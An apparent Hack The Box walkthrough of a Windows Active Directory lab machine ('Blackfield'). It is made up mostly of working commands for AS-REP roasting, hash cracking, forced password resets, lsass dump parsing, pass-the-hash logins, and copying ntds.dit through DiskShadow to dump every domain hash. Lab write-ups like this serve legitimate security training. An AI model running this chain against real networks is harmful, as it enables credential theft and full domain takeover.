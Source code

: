 ![Cascade](https://labs.hackthebox.com/storage/avatars/7c69c876f496cd729a077277757d219d.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [aas](https://app.hackthebox.com/users/6259)        | [Hack The Box](https://www.hackthebox.com/)     | Hard           | Windows   |

---








- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.192 -oG scan
	/opt/extractports scan
	nmap -p53,88,135,139,389,445,593,3268,5985,49677 -sCV -Pn 10.10.10.192 -oN ports
	nmap -p53,88,135,    389,445,593,3268,5985 -sCV -Pn 10.10.10.192 -oN ports
	```

	![image](https://github.com/user-attachments/assets/e88142a7-b3df-40db-89d4-26cff2d05c67)

- I found the domain `BLACKFIELD.local` and I add it to the file in the `hosts` file
- As I see port 53 open, I list mail servers and find another domain I can add to the `hosts` file

	```python
	dig @10.10.10.192 BLACKFIELD.local mx
	```

	![image](https://github.com/user-attachments/assets/6a47af27-c241-4792-baa3-ff56c17c3a56)

- Having the SMB ports open, I start to enumerate them using null credentials and manage to see several shares but find nothing relevant.

```python
netexec smb 10.10.10.192 -u "Guest" -p "" --shares
```

![image](https://github.com/user-attachments/assets/695079ae-127b-4443-bda9-c1b6ded2ae14)

- Using brute force I list system users and manage to find a couple of users.

	```python
	/opt/kerbrute userenum -d BLACKFIELD.local --dc 10.10.10.192  /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 
	```

	![image](https://github.com/user-attachments/assets/46fe6f4b-b8e0-4953-aeb9-0eb8242c559e)

 - After validating that the users exist with kerbrute, we can make an ASREPRoast Attack (TGT) and find a user that does not have “Dont require preauth” set and we can get its hash.
	
	```python
	impacket-GetNPUsers BLACKFIELD.local/ -no-pass -usersfile usernames
	```
	
	![image](https://github.com/user-attachments/assets/9c3a869b-21f3-4c59-9d90-64b2f6916e3b)

- By brute force we tried to get the clear text password from the hash and succeeded in obtaining it.
	
	```python
	hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
	```
	
	![image](https://github.com/user-attachments/assets/a101bbbf-1699-41d2-bdd2-c91697951cdc)

- Using the credentials found for the user support we can list the resources shared by SMB and observe that he has access to more directories than if we use null credentials.

	```python
	netexec smb 10.10.10.192 -u support -p '#0XXXXXXXXXt' --shares
	```
	
	![image](https://github.com/user-attachments/assets/dc94be31-2d65-4387-9b01-fba26f486fa2)

- Before going into the SMB shares I decide to list the users and groups of the system to get a more global version of the system I am dealing with.
- My attention is drawn to the user SVC_backup that belongs both to the group “Remote Management Users”, with which I could connect to the system, and to the group “Backup Operators” with which I could make a copy of the system to extract the user hashes.
	
	```python
	ldapdomaindump -u 'BLACKFIELD.local\support' -p "#0XXXXXXXXXt" 10.10.10.192
	```
	
	![image](https://github.com/user-attachments/assets/f6eff121-05c2-47d4-8433-7359f0fc3808)
	
	![image](https://github.com/user-attachments/assets/da44a3cc-ec66-4777-8246-9884e67305e1)

- When consulting the shared resources I find many directories so I mount them in my machine to be able to consult them with greater facility.
	
	```python
	mkdir /mnt/smbmounted
	mount -t cifs //10.10.10.192/profiles$ /mnt/smbmounted -o username=support,password=#0XXXXXXXXXt,domain=BLACKFIELD.local,rw
	```

- When I look inside all the folders I can't find anything.
- I decide to continue enumerating the system in order to observe potential avenues for escalating privileges or making a lateral move with bloodhound.
- Starting from the user I have credentials, support, I have ForceChangePassword permissions on the user Audir2020. This allows me to change the user's password without needing to know his current password.
	
	```python
	bloodhound-python -c all -u 'support' -p "#0XXXXXXXXXt" -ns 10.10.10.192 -d BLACKFIELD.local
	```
	
	![image](https://github.com/user-attachments/assets/2970aa29-32a0-436b-ba44-beb2280b28d4)

- With the help of this [resource](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword) I manage to change the password for the user Audit2020. When consulting with these credentials which shared resources I have read permissions I find the forensic folder.

	```python
	net rpc password "AUDIT2020" -U "BLACKFIELD.local"/"support"%"#0XXXXXXXXXt" -S "dc01.BLACKFIELD.local"
		#Pepe1234!
	netexec smb 10.10.10.192 -u AUDIT2020 -p Pepe1234! --shares
	```
	
	![image](https://github.com/user-attachments/assets/0eb3c675-e9c2-4311-a4f7-71e14f1e7f21)

- When I consult the resource I find multiple files but I am struck by one inside the memory_analysis folder called lsass.zip

  ```python
  smbclient -U 'AUDIT2020' //10.10.10.192/forensic
  ```

-  I download the file, extract it and use pypykatz to query its contents and I manage to find the NT hash of the Administrator user (which is not valid) and that of the svc_backup user.

	```python
	 unzip lsass.zip
	 pypykatz lsa minidump lsass.DMP > lsass_pypykatz
	```
	
	![image](https://github.com/user-attachments/assets/5de257cf-a793-4f50-bfe9-43fc0795e72f)

- I try to do Pass-the-Hash (PtH) with the user svc_backup and I get access to the system and I can read the first flag.
	
	```python
	netexec winrm 10.10.10.192 -u svc_backup -H 96xxxxxxxxxxxxxxxxxxxxxxxxxxx00d:96xxxxxxxxxxxxxxxxxxxxxxxxxxx00d
	evil-winrm -i 10.10.10.192 -u svc_backup -p 96xxxxxxxxxxxxxxxxxxxxxxxxxxx00d:96xxxxxxxxxxxxxxxxxxxxxxxxxxx00d
	```
	
	![image](https://github.com/user-attachments/assets/8167a6ca-0138-43f9-9dda-6b068429ff69)

- As we have seen previously, the user svc_backup belongs to the group “Backup Operators” and when we see what permissions it has, SeBackupPrivilege and SeRestorePrivilege catch our attention.
- Thanks to these permissions we can try to make a copy of the system to extract the NT hashes of the users.

	![image](https://github.com/user-attachments/assets/e36e59c2-ed44-4491-8526-127b10049c6c)

- As a first attempt I make a copy of the sam and system files to use them later with secretsdump to obtain the hashes. When validating these hashes they are not correct so I have to look for other ways to make the copy.
	
	```python
	reg save hklm\sam .\sam.backup
	reg save hklm\system .\system.backup
	impacket-secretsdump -sam sam.backup -system system.backup LOCAL
	```
	
	![image](https://github.com/user-attachments/assets/66f5a740-2f30-4c99-8198-e7549abae2c8)

- I try to make a copy of the ntds file but it does not allow it at first.
- When looking for different ways to make a copy of this file I find a [blog](https://pentestlab.blog/tag/diskshadow/) that shows how using DiskShadow we can make the copy.
- We start by uploading a file with the following content.

	```python
	#it is important to leave a blank space at the end of each line.
	set context persistent nowriters 
	add volume c: alias someAlias 
	create 
	expose %someAlias% z:
	```

- Once the file is uploaded we use diskshadow pointing to the file.
	
	```python
	diskshadow.exe /s C:\Users\svc_backup\Documents\diskshadow.txt
	```

- This will create a replica of the system in z:\ and on this we can use robocopy to make a copy of the ntds file.
	
	```python
	robocopy /b z:\Windows\NTDS\ . ntds.dit
	```

- We download the copy of the file ntds.dit and together with the copy of system that we had done before, we get the system hashes
	
	```python
	impacket-secretsdump -ntds ntds.dit -system system.backup -hashes lmhash:nthash LOCAL
	```
	
	![image](https://github.com/user-attachments/assets/b3c3b20d-08cc-4eed-ad5c-2a3473e5ec75)
		
- I try to do Pass-the-Hash (PtH) with the user Administrator and I get access to the system and I can read the second flag.
	
	```python
	evil-winrm -i 10.10.10.192 -u Administrator -H 18XXXXXXXXXXXXXXXXXXXXXXXXXXee 
	```
	
	![image](https://github.com/user-attachments/assets/ba8c8d16-735b-48c5-bdaf-3983c518fdd0)
